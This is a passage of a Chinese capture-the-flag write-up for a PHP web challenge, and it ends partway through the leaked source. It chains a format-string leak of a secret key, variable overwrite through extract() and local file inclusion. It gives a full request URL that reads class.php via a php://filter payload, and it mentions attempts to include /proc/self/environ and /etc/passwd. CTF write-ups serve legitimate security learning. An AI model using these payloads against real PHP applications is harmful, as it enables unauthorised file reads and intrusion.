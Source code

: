 1. `$data = sprintf($data,$v); `这一句是有格式化字符串漏洞的（我也不知道是不是叫这个），输入的name为%s就能读取到秘钥  th3_k3y_y0u_cann0t_guess2333
2. `$$key = $value; ` 存在变量覆盖漏洞，但是根据上下文只能覆盖一个变量，所以我们把first放GET参数第一个，赋值为 u
3. `call_user_func($func,$_GET);`这个地方可以调用函数，由于需要满足后面的`if($ccc==="F1ag")`，所以我们调用具有变量覆盖漏洞的函数`extract()`，然后将ccc赋值为F1ag， 其中call_user_func函数，第一个是函数名，第二个是传入的参数，但是只能传一个参数，传多个参数使用call_user_func_array **注意：由于后面有include,所以我们还可以改$file参数，可以利用LFI读取到class.php的源码**
4. 这里都有LFI了，应该可以getshell才对，通过包含：/proc/self/environ 或者日志文件。。。但是都没有权限，甚至/etc/passwd也读不到

由于有`require('class.php');`的一句，所以我们直接通过php伪协议读取class.php的源码，payload如下:
```
http://120.55.43.255:13006/?first=u&name=%s&key=th3_k3y_y0u_cann0t_guess2333&function=extract&ccc=F1ag&file=php://filter/read=convert.base64-encode/resource=class.php
```
源码如下:
```
<?php
ini_set('session.serialize_handler', 'php');
session_start();
class Monitor {
    public $test;
    function __construct() {
        $this->test ="index.php";
    }


    function __destruct() {
    echo "
file:" .$this->test."
";
}
}


class Welcome {
    public $obj;
    public $var;
    function __construct(){
        $this->var='success';
        $this->obj=null;
    }
    function __toString(){
        $this->obj->execute();
        return $this->var."";
    }



}
class Come{
    public $method;
    public $args;
    function __construct($method, $args) {
        $this->method = $method;
        $this->args = $args;
    }
    function __wakeup(){
        foreach($this->args as $k => $v) {
            $this->args[$k] = $this->waf(trim($v));
        }
    }
    function waf($str){
        $str=preg_replace("/[<>*;|?\n ]/","",$str);
        $str=str_replace('/../','',$str);
        $str=str_replace('../','',$str);
        return $str;
```